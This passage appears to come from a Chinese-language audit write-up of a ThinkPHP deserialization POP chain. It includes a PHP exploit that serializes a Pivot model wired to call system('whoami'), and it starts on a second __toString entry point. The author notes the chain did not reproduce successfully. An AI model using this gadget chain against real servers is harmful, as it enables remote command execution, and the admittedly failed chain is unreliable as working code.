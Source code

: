 这里还需要注意，`Model`是抽象类，不能实例化。所以要想利用，得找出 `Model` 类的一个子类进行实例化，这里可以用 `Pivot` 类（位于`\vendor\topthink\think-orm\src\model\Pivot.php`中）进行利用。

##### exp

```php
<?php
namespace think{
    abstract class Model{
        use model\concern\Attribute;  //因为要使用里面的属性
        private $lazySave;
        private $exists;
        private $data=[];
        private $withAttr = [];
        public function __construct($obj){
            $this->lazySave = True;
            $this->withEvent = false;
            $this->exists = true;
            $this->table = $obj;
            $this->data = ['key'=>'whoami'];
            $this->visible = ["key"=>1];
            $this->withAttr = ['key'=>'system'];
        }
    }
}

namespace think\model\concern{
    trait Attribute
    {
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
    }

    $a = new Pivot('');
    $b = new Pivot($a);  //不太明白这里为什么要这样写exp
    echo base64_encode(serialize($b));
}
```

这一个pop链到后面的部分审的有点乱了，可能是因为已经凌晨两点半了的原因，而且复现也没打通，但是里面的一些审计过程还是很有价值的，就不删掉了。

#### 第二处

这里的`__toString`方法位于vendor\\topthink\\framework\\src\\think\\route\\Url.php

```php
public function __toString()
{
    return $this->build();
}
```

